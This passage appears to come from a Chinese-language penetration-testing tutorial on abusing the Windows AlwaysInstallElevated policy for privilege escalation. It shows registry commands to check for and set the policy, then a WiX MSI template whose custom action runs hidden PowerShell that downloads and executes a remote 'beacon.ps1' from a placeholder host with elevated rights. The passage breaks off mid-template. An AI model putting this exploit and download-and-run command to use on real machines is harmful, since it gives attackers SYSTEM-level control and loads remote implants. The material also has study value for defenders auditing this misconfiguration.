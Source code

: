 没开启是查询不到的。

```plaintext
PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
错误: 系统找不到指定的注册表项或值。
PS C:\Users\123> reg query HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
错误: 系统找不到指定的注册表项或值。
```

查询注册表的时 RootKey 也可以简写查询

```plaintext
PS C:\Users\123> HKEY_LOCAL_MACHINE^C
PS C:\Users\123> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
PS C:\Users\123> HKEY_CURRENT_USER^C
PS C:\Users\123> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
```

第二种启用方法，是使用管理员权限手动设置两项注册表，设置数值类型 REG\_DWORD，赋值为 1。

```plaintext
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

因此在实战中，可以通过查询注册表来确认能不能提权，这就是它的利用条件。实际利用方式很简单，使用 [MSI-AlwaysInstallElevated](https://github.com/KINGSABRI/MSI-AlwaysInstallElevated) 项目提供的 MSI 模板 [alwaysInstallElevated-2.wxs](https://github.com/KINGSABRI/MSI-AlwaysInstallElevated/blob/master/WXS-Templates/alwaysInstallElevated-2.wxs)，编制 MSI 安装包即可。

```xml
<?xml version="1.0"?>
<Wix xmlns="http://schemas.microsoft.com/wix/2006/wi">
   <Product 
      Id="*" 
      UpgradeCode="12345678-1234-1234-1234-111111111111" 
      Name="Example Product Name" 
      Version="0.0.1" 
      Manufacturer="Example Company Name" 
      Language="1033">

      <Package InstallerVersion="200" Compressed="yes" Comments="Windows Installer Package" InstallPrivileges="elevated"/>
      <Media Id="1" Cabinet="product.cab" EmbedCab="yes"/>


      <Directory Id="TARGETDIR" Name="SourceDir">
         <Component Id="ApplicationFiles" Guid="12345678-1234-1234-1234-222222222222"/>               
      </Directory>

      <Feature Id="DefaultFeature" Level="1">
         <ComponentRef Id="ApplicationFiles"/>
      </Feature>

      <CustomAction 
         Id          ="a_system_shell"                     
         Directory   ="TARGETDIR"
         ExeCommand  ='powershell -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\"http://<Host>/beacon.ps1\"))"'
         Return      ="asyncNoWait"
         Execute     ="deferred"
         Impersonate ="no"
      />

      <CustomAction 
         Id          ="z_gonna_fail"                     
```
